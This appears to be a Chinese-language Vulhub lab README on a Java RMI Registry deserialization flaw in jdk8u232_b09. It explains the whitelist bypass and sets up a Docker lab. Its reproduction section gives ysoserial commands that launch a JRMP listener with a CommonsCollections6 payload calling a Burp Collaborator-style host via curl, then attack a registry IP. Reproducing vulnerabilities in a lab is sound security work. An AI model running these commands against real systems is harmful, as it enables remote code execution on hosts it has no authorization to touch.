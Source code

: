 # Java RMI Registry 反序列化漏洞(jdk8u232_b09)

## 漏洞描述

Java Remote Method Invocation 用于在Java中进行远程调用。RMI存在远程bind的功能(虽然大多数情况不允许远程bind)，在bind过程中，伪造Registry接收到的序列化数据(实现了Remote接口或动态代理了实现了Remote接口的对象)，使Registry在对数据进行反序列化时触发相应的利用链(环境用的是commons-collections:3.2.1).

自jdk8u121起，Registry对反序列化的类做了白名单限制

```java
if (String.class == clazz
        || java.lang.Number.class.isAssignableFrom(clazz)
        || Remote.class.isAssignableFrom(clazz)
        || java.lang.reflect.Proxy.class.isAssignableFrom(clazz)
        || UnicastRef.class.isAssignableFrom(clazz)
        || RMIClientSocketFactory.class.isAssignableFrom(clazz)
        || RMIServerSocketFactory.class.isAssignableFrom(clazz)
        || java.rmi.activation.ActivationID.class.isAssignableFrom(clazz)
        || java.rmi.server.UID.class.isAssignableFrom(clazz)) {
    return ObjectInputFilter.Status.ALLOWED;
} else {
    return ObjectInputFilter.Status.REJECTED;
}
```

我们需要在上面的几个白名单里面找到相应的可利用的类 具体原理见[浅谈RMI Registry反序列化问题](http://blog.0kami.cn/2020/02/06/rmi-registry-security-problem/)

## 环境搭建

Vulhub执行如下命令编译及启动RMI Registry和服务器：

```
docker-compose build
docker-compose run -e RMIIP=your-ip -p 1099:1099 rmi
```

其中，`your-ip`是服务器IP，客户端会根据这个IP来连接服务器。

环境启动后，RMI Registry监听在1099端口。

## 漏洞复现

通过[ysoserial](https://github.com/wh1t3p1g/ysoserial)的exploit包中的RMIRegistryExploit2或者3进行攻击

```bash
// 开启JRMPListener
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 8888 CommonsCollections6 "curl http://xxxxx.burpcollaborator.net"
// 发起攻击
java -cp target/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit2 192.168.31.88 1099 jrmphost 8888
```

![image-20200206135822418](images/image-20200206135822418.png)

Registry会返回报错，这个没关系正常，命令会正常执行。